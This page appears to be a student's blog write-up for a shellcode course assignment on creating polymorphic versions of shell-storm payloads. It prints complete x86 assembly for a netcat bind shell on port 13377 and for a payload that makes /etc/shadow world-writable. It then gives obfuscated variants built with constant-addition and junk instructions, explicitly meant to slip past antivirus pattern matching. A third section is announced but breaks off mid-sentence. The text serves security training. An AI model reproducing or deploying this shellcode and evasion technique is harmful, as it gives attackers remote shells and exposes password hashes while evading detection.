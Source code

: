 ```yaml
---
title:  Assignment 6
description: Create Polymorphic Versions of Sample Shellcode
order: 6
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

For this assignment we will be creating polymorphic versions of sample shellcode from [shell-storm](shell-storm.org).

The first shellcode we will be transforming is the [netcat bindshell](http://shell-storm.org/shellcode/files/shellcode-804.php), shown below:

```nasm
; netcat_bind_shell.nasm
;  - Listen on port 13377 using netcat and provide shell
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-804.php

    global _start

section .text
_start:

        xor eax,eax
        xor edx,edx
        push 0x37373333         ; 7733
        push 0x3170762d         ; 1pv-
        mov edx, esp

        push eax
        push 0x68732f6e         ; hs/n
        push 0x69622f65         ; ib/e
        push 0x76766c2d         ; vvl-
        mov ecx,esp

        push eax
        push 0x636e2f2f         ; cn//
        push 0x2f2f2f2f         ; ////
        push 0x6e69622f         ; nib/
        mov ebx, esp

        push eax
        push edx
        push ecx
        push ebx
        xor edx,edx
        mov  ecx,esp
        mov al,11               ; execve
        int 0x80
```

It seems there are several ways we can morph this shellcode.  First, we should obfuscate all those push commands, since they contain the string we intend to execute.  We can do this by saving each string in a register first, adding a constant to it, then pushing it to the stack.  To save space, we'll use the first push command as the constant.  The next piece we should obfuscate is the **execve** syscall, since that could be seen as suspicious.  Below is the resulting shellcode:

```nasm
; netcat_bind_shell.nasm
;  - Listen on port 13377 using netcat and provide shell
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-804.php

    global _start

section .text
_start:

        xor eax,eax
        mov edi, 0x37373333
        push edi
        mov esi, 0x68a7a960     ; 0x3170762d
        sub esi, edi            ; ...
        push esi                ; ...
        mov edx, esp
        push eax
        mov esi, 0x313bfc3b     ; push 0x68732f6e
        add esi, edi            ; ...
        push esi                ; ...
        mov esi, 0x322afc32     ; push 0x69622f65
        add esi, edi            ; ...
        push esi                ; ...
        mov esi, 0x3f3f38fa     ; push 0x76766c2d
        add esi, edi            ; ...
        push esi                ; ...
        mov ecx,esp
        push eax
        mov esi, 0x2c36fbfc     ; push 0x636e2f2f
        add esi, edi            ; ...
        push esi                ; ...
        mov esi, 0x66666262     ; push 0x2f2f2f2f
        sub esi, edi            ; ...
        push esi                ; ...
        mov esi, 0x37322efc     ; 0x6e69622f
        add esi, edi            ; ...
        push esi                ; ...
        mov ebx, esp
        push eax
        push edx
        push ecx
        push ebx
        xor edx,edx
        mov  ecx,esp
        mov al,10               ; mov al, 11
        inc eax                 ; ...
        int 0x80
```

The new shellcode is 85 bytes, about 37% more than the original 62 bytes.

Next, we'll look at the [chmod 0666 /etc/shadow](http://shell-storm.org/shellcode/files/shellcode-556.php) shellcode, reproduced below:

```nasm
; chmod_etc_shadow.nasm
;  - Execute chmod 0666 /etc/shadow and exit
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-556.php

    global _start

section .text
_start:

        xor eax,eax
        push eax

        push dword 0x776f6461   ; woda
        push dword 0x68732f2f   ; hs//
        push dword 0x6374652f   ; cte/
        mov ebx,esp

        push word 0x1b6
        pop ecx

        mov al,0xf              ; chmod
        int 0x80

        mov al,0x1              ; exit
        int 0x80
```

With this shellcode we'll try a different approach by adding nop-equivalent operations to obfuscate the pattern.  My morphed shellcode is shown below:

```nasm
; chmod_etc_shadow.nasm
;  - Execute chmod 0666 /etc/shadow and exit
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-556.php

    global _start

section .text
_start:

        sub ebx,ebx             ; xor eax,eax
        xchg eax,ebx            ; ...
        push eax

        push dword 0x776f6461   ; woda
        inc ebx
        lea ebx, [ecx]
        push dword 0x68732f2f   ; hs//
        push ecx
        add esp, 4
        push dword 0x6374652f   ; cte/
        mov ebx,esp
        mov ecx, eax

        push word 0x1b6
        pop ecx

        mov al,0x10             ; chmod
        dec eax
        int 0x80

        mov al,0x1              ; exit
        int 0x80
```

As you can see, we've obfuscated the placement of "/etc//shadow" on the stack by intermixing it with non-interactive operations.  Even though this may not seem as effective as the constant-addition method we used before, it only increased the shellcode by 11 bytes and still might avoid pattern recognition from antivirus.

Finally, we'll take a look at 

You can find the all the code to this challenge at [https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_6](https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_6).

<br>
{% include preamble.md %}

[&lt;&lt; Go Back]({{ site.baseurl }})
